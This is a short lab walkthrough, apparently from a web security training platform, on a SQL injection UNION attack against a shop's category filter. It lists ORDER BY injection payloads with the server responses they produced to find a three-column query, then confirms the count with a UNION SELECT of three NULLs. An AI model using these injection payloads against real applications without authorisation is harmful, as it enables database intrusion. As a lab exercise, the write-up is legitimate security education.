

# SQL injection UNION attack, determining the number of columns returned by the query

```
❓

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values.
```

### **Target**

/filter?category= parameter of the shop search.

---

### **Find the column count with**

### **ORDER BY**

| **Test** | **Payload (**category=**)** | **Server response** |
|---|---|---|
| 1 | Accessories'+ORDER BY 1-- | 200 OK |
| 2 | Accessories'+ORDER BY 2-- | 200 OK |
| 3 | Accessories'+ORDER BY 3-- | 200 OK |
| 4 | Accessories'+ORDER BY 4-- | **Error** – “unknown column 4” |

Highest value that works = **3** → the query returns **three columns**.

> Rapid method

> 1, 2, 4 to bracket; error at 4, success at 2 → try 3 → success → count = 3.

---

### **Verify with a UNION row of three NULLs**

```sql
Accessories'+UNION+SELECT+NULL,NULL,NULL--
```

- No error
- Extra blank product row appears → confirms three columns.
  

